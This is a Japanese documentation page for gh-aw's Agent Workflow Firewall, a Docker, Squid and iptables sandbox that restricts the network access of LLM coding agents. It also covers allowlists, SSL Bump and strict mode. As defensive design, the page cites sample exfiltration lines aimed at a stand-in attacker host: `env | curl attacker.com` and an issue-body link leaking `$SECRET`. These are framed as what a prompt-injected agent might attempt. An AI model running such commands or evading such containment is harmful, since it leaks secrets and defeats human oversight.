

# 07 — AWF Firewall & Sandbox

> _Based on gh-aw v0.61.0 · Last reviewed 2026-04_

**Agent Workflow Firewall (AWF)** はカーネルレベルで強制されるサンドボックスで、
「シェルコマンドを実行する LLM エージェント」を本番リポジトリに向けても
責任ある形で扱えるようにします。エージェントを Docker ネットワークに閉じ込め、
すべてのパケットを Squid プロキシ経由にし、許可リストにないものは
アプリケーション層ではなく iptables 層で破棄します。**4 つすべてのエンジン
（Copilot / Claude / Codex / Gemini）が AWF 配下で動作します。** 本ドキュメントは
アーキテクチャ、設定モデル、エコシステム識別子、SSL Bump、strict モードや
safe outputs との微妙な相互作用を解説します。

## TL;DR

- AWF = **Docker サンドボックス + Squid プロキシ + iptables リダイレクト + （任意の）API キーサイドカー**。
- ネットワークポリシーはワークフロー単位で `network:` により宣言。
  省略時のデフォルトは `network: defaults`（ベースラインインフラのみ）。
- `network: {}` は **ネットワークアクセスをまったく許可しない**（完全遮断）。
  真のエアギャップ実行に使用します。
- 生ドメインの代わりに **エコシステム識別子**（`python`、`node`、`containers` など）を
  使用してください。gh-aw プロジェクトがメンテする監査済み許可リストです。
- **block は常に allow に勝ちます**。サブドメインやワイルドカード（`*.example.com`）も
  サポート。エントリ単位の `https://` / `http://` 接頭辞でスキームを固定できます。
- **SSL Bump**（AWF 0.9.0+）は HTTPS の深層検査により URL パスレベルの
  フィルタリングを可能にします。`network.firewall.ssl-bump: true` で有効化。
- **strict モード** はカスタムドメインを警告なしに許可します。一方、
  個別のエコシステムメンバードメイン（例: `pypi.org`）を列挙すると
  **警告** を出し、対応するエコシステム識別子（例: `python`）を推奨します。
- ファイアウォールの **コンテンツサニタイザ** は safe-output ペイロード中の
  非許可ドメイン URL を編集するため、エージェントは issue 本文経由でも
  データを外部送信できません。

## Key Concepts

| 概念 | 役割 | 重要性 |
|---|---|---|
| **Squid プロキシコンテナ** | アウトバウンド HTTP/HTTPS をドメインでフィルタ | 単一の制御点。ドメイン未許可 → パケットなし |
| **エージェントコンテナ** | `claude` / `codex` / `copilot` / `gemini` を実行 | 隔離。インターネットへの直接経路なし |
| **API プロキシサイドカー** | API キーを保持しエージェント代理で署名 | キーがエージェントプロセスのメモリに存在しない |
| **iptables リダイレクト** | エージェント通信を Squid 経由に強制 | `curl --proxy ''` のような迂回が不可能 |
| **エコシステム識別子** | 信頼ドメインの名前付きバンドル | 前方互換、監査済み、慣用的 |
| **`network.allowed`** | 許可リスト（エコシステム + ドメイン） | ワークフロー単位で構成 |
| **`network.blocked`** | ハード拒否リスト | `allowed` に勝つ。ワイルドカード対応 |
| **`network.firewall.ssl-bump`** | HTTPS を MITM し URL パスでフィルタ | `github.com/githubnext/*` のみ許可などが可能 |
| **`network: {}`** | 空オブジェクト — ネットワークアクセスなし | 真のエアギャップモード |

> [!NOTE]
> AWF は Docker 20.10+ と Compose v2、ソースビルドには Node.js 20.19.0+、
> Ubuntu 22.04 以降を要求します。GitHub ホスト型ランナーはこれらをすべて満たします。

## Deep Dive

### 1. 三コンテナ構成

`gh aw compile` が AWF を対象とするエンジンのワークフローを生成すると、
`lock.yml` は最大 3 サービスの Docker Compose スタックを起動します:



**なぜ 1 つではなく 3 つのコンテナか？**

- **エージェント** は信頼できない指示を実行する唯一のコンテナなので、
  影響範囲を最小化します: API キーなし、ホストファイルシステムなし、
  直接ネットワークなし。
- **Squid** は成熟した ACL を持つ歴戦の HTTP/HTTPS プロキシ。
  AWF は `network:` ブロックから `squid.conf` を生成します。
- **API プロキシサイドカー** は任意ですが本番では推奨。エージェントが
  プロンプトインジェクションで `env | curl attacker.com` を実行させられても、
  シークレットは `env` には存在せず、サイドカー内にしかありません。

### 2. カーネルレベルの強制

AWF はエージェントコンテナ内で `iptables` ルールを動かし、ポート 80/443 の
すべての送信 TCP を Squid コンテナへ REDIRECT します。これは攻撃者が
unset できる `HTTP_PROXY` 環境変数 **ではありません**。raw socket でも Squid に届きます。

> [!WARNING]
> 非許可アドレス向けの非 HTTP プロトコル（raw TCP / UDP / ICMP）はブリッジ
> ネットワークポリシーで破棄されます。カスタムプロトコルが必要なら、その
> ワークフローに AWF を使うこと自体を再検討すべきです。

### 3. `network:` の設定文法

```yaml
# (a) 省略時のデフォルト — ベースラインインフラのみ
network: defaults

# (b) ネットワーク完全遮断 — 真のエアギャップ
network: {}

# (c) オブジェクト形式: エコシステム識別子＋ドメイン、blocked リストは任意
network:
  allowed:
    - defaults
    - python
    - github
    - "api.example.com"
    - "https://secure.partner.io"     # HTTPS のみ
    - "http://legacy.example.com"     # HTTP のみ
    - "*.cdn.example.com"             # ワイルドカード
  blocked:
    - "raw.githubusercontent.com"
    - "*.evil.example"
  firewall:
    ssl-bump: true                    # AWF 0.9.0+。HTTPS 深層検査
    allow-urls:
      - "https://api.github.com/repos/*/issues"
    log-level: info                   # debug | info | warn | error
```

**主要ルール:**

- **`network: defaults`** は `network:` 自体を省略した場合のデフォルト。
- **`network: {}`** はネットワークアクセスを真に遮断します。暗黙の
  ベースラインはありません。静的解析専用ワークフロー向け。
- **`blocked:` は常に `allowed:` に勝ちます**。エコシステム識別子に対しても有効
  （`python` を許可しつつ内部の特定 CDN のみ拒否、なども可能）。
- **ワイルドカード**（`*.example.com`）と **スキーム接頭辞**（`https://`、
  `http://`）は `allowed:` / `blocked:` のどちらにも使えます。
- **`firewall.allow-urls`** は SSL Bump で TLS 終端後に Squid が評価する
  URL の glob パターンで、ホスト名ではなく URL パスレベルで判定されます。

### 4. エコシステム識別子

ドメイン許可リストを手作業でメンテするのは現実的ではありません（npm レジストリ
だけで多数の CDN にファンアウトします）。AWF はファイアウォールコードと一緒に
保守される名前付きバンドル **エコシステム識別子** を提供します。

| 識別子 | 含まれるもの |
|---|---|
| `defaults` | 基本インフラ（証明書、JSON schema、Ubuntu ミラー、Microsoft、各種パッケージミラー） |
| `github` | github.com、docs.github.com、github.blog、`*.githubusercontent.com` |
| `local` | localhost、127.0.0.1、::1 |
| `dev-tools` | Codecov、Shields.io、Snyk、Renovate、CircleCI |
| `default-safe-outputs` | `defaults` + `dev-tools` + `github` + `local` |
| `containers` | Docker Hub、GHCR、Quay |
| `linux-distros` | Debian、Alpine、Ubuntu など |
| `python` | PyPI / pip / conda |
| `node` | npm / yarn / pnpm |
| `go` | proxy.golang.org、sum.golang.org |
| `rust` | crates.io |
| `java` | Maven Central、Gradle plugin portal |
| `ruby` | RubyGems、Bundler |
| `php` | Packagist |
| `perl` | CPAN |
| `swift` | Swift パッケージレジストリ |
| `dotnet` | NuGet |
| `dart` | pub.dev |
| `julia` | pkg.julialang.org |
| `lean` | Lean パッケージレジストリ |
| `haskell` | Hackage、Stackage |
| `deno` | deno.land、jsr.io、`*.jsr.io` |
| `terraform` | HashiCorp registry |
| `playwright` | Playwright ブラウザバイナリ配布 |
| `chrome` | `*.google.com`、`*.googleapis.com`、`*.gvt1.com` |

> [!NOTE]
> エコシステムバンドルは gh-aw 自体と一緒にバージョン管理されています。
> gh-aw を更新したら `gh aw compile` で lock ファイルを再生成してください。
> 埋め込みドメインリストが変わっている可能性があります。

### 5. プロトコル指定フィルタ

エントリ単位のスキーム接頭辞で、許可 / 拒否エントリを単一プロトコルに固定できます。
ワイルドカードはホスト部に適用されます:

```yaml
network:
  allowed:
    - "https://secure.api.example.com"   # HTTPS のみ
    - "http://legacy.example.com"        # HTTP のみ
    - "example.org"                      # 両方
    - "https://*.api.example.com"        # HTTPS ワイルドカード
```

これらは Squid が消費する AWF フラグへコンパイルされます:

```text
--allow-domains ...,example.org,http://legacy.example.com,https://secure.api.example.com,https://*.api.example.com,...
```

### 6. SSL Bump — URL パスレベルの HTTPS フィルタ

ドメインのみの許可リストはワークフローによっては粗すぎます。`github.com` を
許可するとエージェントは github.com の **任意** のパスへ到達できます。SSL Bump
（AWF 0.9.0+）はアウトバウンド TLS を MITM し、Squid が完全 URL に ACL を適用できるようにします:

```yaml
network:
  allowed: [defaults, github]
  firewall:
    ssl-bump: true
    allow-urls:
      - "https://github.com/githubnext/*"
      - "https://api.github.com/repos/*/issues"
    log-level: debug
```

これにより `github.com` が許可リストにあっても、マッチしたパス以外は Squid から 403
が返ります。`log-level` は Squid の冗長度（`debug` / `info` / `warn` / `error`）を制御します。

> [!WARNING]
> SSL Bump はエージェントコンテナのトラストストアに生成 CA をインストールします。
> ホストやランナーには影響しません。証明書ピン留めクライアント（一部の Go バイナリ、
> Erlang `:public_key` など）は失敗する可能性があります。対象ドメインを `allow-urls`
> の外で扱うことで例外化できます。

### 7. strict モードとの相互作用

strict モード（デフォルト `true`）は検証を厳格化します。ネットワーク関連で重要な相互作用は 2 つです:

1. **カスタムドメインは警告なしに許可されます。** `network.allowed` に
   `"api.example.com"` を追加しても strict モードの診断は出ません。カスタムホストは
   明示的・意図的な追加とみなされます。
2. **個別のエコシステムメンバードメインは警告を発します。** `python` 識別子の
   代わりに `pypi.org` を書くと、対応するエコシステムバンドルへの切り替えが
   推奨されます（バンドルは PyPI の CDN ローテーションに追随します）。

```text
⚠ network.allowed[2] "pypi.org" は "python" エコシステムに含まれます。
  推奨: 代わりに "python" 識別子を使用してください — PyPI の CDN リストを追跡します。
```

これは推奨であり拒否ではありません。カスタムドメインとエコシステム識別子は自由に併用できます。

### 8. ファイルシステム隔離（chroot モード）

AWF は 2 つの関心事を分離します:

- **ネットワーク隔離** は Squid + iptables（上記）で強制。
- **ファイルシステム隔離** は chroot ビューで強制し、選定済みのホストバイナリ
  （git、gh、node、python など）を読み取り専用で公開しつつ、エージェントの
  作業ツリーは書き込み可能に保ちます。

実際のワークフローはホストツール（`gh pr create`、`git apply`）を呼ぶ必要があるため、
この分離が重要です。chroot + AWF は「バイナリは渡すが、資格情報もインターネットも渡さない」を実現します。

### 9. 副作用: safe-output コンテンツのサニタイズ

アウトバウンド通信を制御するのと同じ許可リストが、safe-output ペイロードの
**コンテンツサニタイザ** も駆動します。許可リストにないホストの URL は、
safe-output ジョブが見る前に `(redacted)` に書き換えられます。これは巧妙な
データ流出経路を塞ぎます: エージェントが `curl attacker.com` できなくても、
issue 本文に `https://attacker.com/?leak=$SECRET` を書こうとする可能性がありますが、
そのリンクはサニタイザに編集されます。

## Examples

### 例 1 — 最小構成の Python ワークフロー

```yaml
---
on: workflow_dispatch
permissions: read-all
network:
  allowed: [defaults, python, github]
engine: copilot
safe-outputs:
  create-issue:
---

# Audit dependencies

Scan `requirements.txt` and open an issue listing CVEs.
```

### 例 2 — マルチエコシステム＋カスタムパートナー API

```yaml
network:
  allowed:
    - defaults
    - node
    - containers
    - "https://api.partner.example.com"
  blocked:
    - "*.tracking.partner.example.com"
```

カスタムドメイン `api.partner.example.com` は strict モードでも警告なく受け入れられます。
`registry.npmjs.org` を直接列挙するのではなく `node` の使用が推奨されます。

### 例 3 — SSL Bump によるロックダウン

```yaml
network:
  allowed: [defaults, github]
  firewall:
    ssl-bump: true
    allow-urls:
      - "https://api.github.com/repos/${{ github.repository }}/*"
      - "https://github.com/${{ github.repository }}/*"
    log-level: info
```

このワークフローは GitHub に対して **現在のリポジトリについてのみ** 通信できます。
他リポジトリ・他組織には到達できません。

### 例 4 — エアギャップ解析

```yaml
network: {}
```

エージェントは **ネットワークアクセスゼロ** で動作します。チェックアウトされた
ツリー内ですべてが完結する静的解析タスクに有用です。

## Pitfalls & FAQ

> [!WARNING]
> **`network: {}` はネットワークを真に遮断します — エコシステムベースラインも含めて。**
> PyPI / npm は使いたいがそれ以外のインターネットを使いたくない場合は、
> `{}` ではなく `network: { allowed: [defaults, python] }` のように書いてください。

> [!TIP]
> `pypi.org` を直接列挙しても動作しますが、strict モードで `python` への切り替えを
> 推奨されます。推奨に従ってください。バンドルは PyPI の CDN ローテーションに追随します。

**Q: サンドボックス内でプライベート MCP サーバーを動かせますか？**
はい。`localhost` にバインドし、許可リストに `local` を追加してください。
Squid はループバック通信を傍受しません。

**Q: AWF はセルフホストランナーで動作しますか？**
Docker 20.10+ / Compose v2 / Ubuntu 22.04+ を満たせば動作します。
iptables のセットアップが Linux 固有のため、macOS / Windows ランナーは未サポートです。

**Q: 「ドメインがブロックされた」エラーはどうデバッグしますか？**
`network.firewall.log-level: debug` を設定し、ワークフロー実行アーティファクトの
`awf.log` を調べてください。各拒否要求は宛先ホスト、要求元ツール、マッチした
拒否ルール（または許可ルール不在）とともに記録されます。

**Q: ファイアウォールは LLM API 呼び出し自体に影響しますか？**
API プロキシサイドカーが有効な場合、サイドカーの egress も許可リストの対象です。
該当 LLM プロバイダドメイン（api.openai.com、api.anthropic.com など）は
エンジン選択時に自動追加されるため、手動で列挙する必要はありません。

**Q: どのエンジンが AWF 配下で動きますか？**
4 つすべて — Copilot、Claude、Codex、Gemini。AWF はエンジン固有ではありません。

## Related Docs

- [Safe Outputs Catalog](./06-safe-outputs-catalog.ja.md)
- [Threat Detection & XPIA](./08-threat-detection-and-xpia.ja.md)
- [Imports & Shared Components](./09-imports-and-shared-components.ja.md)
- [`gh aw` CLI Reference](../gh-aw-cli-reference.md)
